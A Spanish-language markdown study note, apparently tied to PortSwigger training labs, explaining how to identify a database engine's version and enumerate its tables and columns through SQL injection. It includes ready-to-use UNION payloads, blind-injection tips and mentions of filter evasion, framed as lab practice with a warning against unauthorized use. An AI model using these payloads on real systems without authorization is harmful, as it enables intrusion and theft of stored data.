 # Examinar la base de datos en ataques SQLi


## Resumen

Para explotar una vulnerabilidad de SQL injection es muy útil conocer el **tipo y la versión** del gestor de base de datos (SGBD) y **qué tablas y columnas** existen. Con esta información podemos construir payloads más precisos (por ejemplo `UNION SELECT` con el número correcto de columnas o funciones específicas del motor) y estimar el impacto.

Este documento muestra consultas típicas para identificar la versión y para enumerar tablas y columnas, con variantes para MySQL, Microsoft SQL Server, PostgreSQL, Oracle y SQLite.

[SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

## Identificar el tipo y la versión de la base de datos

Una forma común de identificar el SGBD es inyectar consultas específicas del proveedor que devuelvan la versión. Si la consulta funciona y devuelve datos, podemos inferir el motor y la versión.

### Consultas típicas por SGBD

* **Microsoft SQL Server / MySQL**

  ```sql
  SELECT @@version;
  ```

* **Oracle**

  ```sql
  SELECT * FROM v$version;
  ```

* **PostgreSQL**

  ```sql
  SELECT version();
  ```

* **SQLite**

  ```sql
  SELECT sqlite_version();
  ```

### Ejemplo con UNION

Si la aplicación permite `UNION` y la salida de la consulta se muestra en la página, puedes usar un payload como:

```
' UNION SELECT @@version--
```

Si la respuesta contiene algo como:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
... Standard Edition (64-bit) on Windows Server 2016 ...
```

entonces confirmas que el motor es Microsoft SQL Server y puedes ajustar payloads posteriores.

[Lab: SQL injection attack, querying the database type and version on Oracle](1_SQL_injection_attack,_querying_the_database_type_and_version_on_Oracle.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

[Lab: SQL_injection_attack,_querying_the_database_type_and_version_on_MySQL_and_Microsoft](2_SQL_injection_attack,_querying_the_database_type_and_version_on_MySQL_and_Microsoft.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Listar el contenido de la base de datos (tablas y columnas)

La mayoría de SGBD (excepto Oracle, que usa diccionarios específicos) implementan `information_schema`, un conjunto de vistas que describen metadatos (tablas, columnas, etc.). Consultar `information_schema` es una forma portátil de enumerar tablas/columnas en MySQL, PostgreSQL y SQL Server.

### Listar tablas (information_schema)

Consulta genérica (funciona en MySQL, PostgreSQL, SQL Server donde exista `information_schema`):

```sql
SELECT table_catalog, table_schema, table_name, table_type
FROM information_schema.tables
WHERE table_type = 'BASE TABLE'
ORDER BY table_schema, table_name;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Esto indica que existen tres tablas: `Products`, `Users` y `Feedback`.

### Listar columnas de una tabla

Consulta genérica usando `information_schema.columns`:

```sql
SELECT table_catalog, table_schema, table_name, column_name, data_type
FROM information_schema.columns
WHERE table_name = 'Users'
ORDER BY ordinal_position;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Con esto conoces las columnas y sus tipos.


[Lab: SQL_injection_attack,_listing_the_database_contents_on_non-Oracle_databases](3_SQL_injection_attack,_listing_the_database_contents_on_non-Oracle_databases.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Y Oracle — vistas del diccionario

Oracle no siempre expone `information_schema`. En su lugar dispone de vistas como `ALL_TABLES`, `USER_TABLES`, `ALL_TAB_COLUMNS`, `USER_TAB_COLUMNS`.

* Listar tablas accesibles:

  ```sql
  SELECT owner, table_name FROM all_tables;
  -- o para sólo las del usuario actual:
  SELECT table_name FROM user_tables;
  ```

* Listar columnas de una tabla (ej. `USERS`):

  ```sql
  SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'USERS';
  ```

---

## Consejos prácticos para labs y explotación

1. **Haz fingerprint antes de lanzar payloads ruidosos.** Si sabes que es MySQL puedes usar `GROUP_CONCAT`, `CONCAT`, `SLEEP` (MySQL) o `LOAD_FILE()`; si es PostgreSQL usarás `string_agg`, `pg_sleep`, etc.
2. **Si la app no muestra resultados directamente, usa `UNION` para inyectar resultados en una columna visible.** Primero determina número de columnas con `ORDER BY`/`UNION SELECT NULL,...`.
3. **Si no puedes usar `UNION`, recurre a inyección ciega (boolean/time-based)** y extrae información carácter a carácter con `SLEEP`/`pg_sleep`/`WAITFOR` según el motor.
4. **En Oracle, usa `all_tables` / `all_tab_columns`** para enumerar objetos; muchas apps en labs tienen estas vistas accesibles y devuelven resultados.
5. **Evita enviar consultas destructivas en entornos reales.** En labs puedes experimentar, pero en producción no modifiques ni borres datos sin autorización.

---

## Payloads conceptuales (ejemplos adaptables)

> Ajusta cada payload al parámetro vulnerable y a la estructura de la respuesta de la aplicación.

* **Detectar versión (UNION)**

  * `' UNION SELECT @@version--` (MySQL / SQL Server)
  * `' UNION SELECT version()--` (Postgres / MySQL)
  * `' UNION SELECT * FROM v$version--` (Oracle, si se devuelve)

* **Listar tablas (information_schema)**

  * `' UNION SELECT table_schema, table_name, NULL, NULL FROM information_schema.tables--`

* **Listar columnas de `Users`**

  * `' UNION SELECT column_name, data_type, NULL, NULL FROM information_schema.columns WHERE table_name='Users'--`

* **Oracle — listar tablas**

  * `' UNION SELECT owner, table_name, NULL FROM all_tables--`

---

## Notas sobre salida y formateo

* Muchas veces debes **concatenar columnas** o usar funciones de agregación (`GROUP_CONCAT`, `string_agg`) para que los resultados quepan en una sola columna que la página muestre.
* Ajusta el número de columnas y tipos en `UNION SELECT` para que coincida con la consulta original.
* Si la aplicación filtra caracteres (por ejemplo `'` o `--`), intenta técnicas de evasión (comentarios, codificaciones, funciones nativas del motor) o usa herramientas como Burp para manipular encodings.

---

## Ejercicios de laboratorio sugeridos (Practitioner)

* **Oracle — query de versión y listados:** encontrar si `SELECT * FROM v$version` devuelve datos y luego listar tablas con `all_tables`.
* **MySQL / SQL Server — identificar versión con `@@version` y luego enumerar tablas con `information_schema.tables`**.
* **PostgreSQL — `SELECT version()` y enumerar con `pg_catalog`**.

Incluye siempre evidencias (requests, responses, capturas) en el writeup.

---

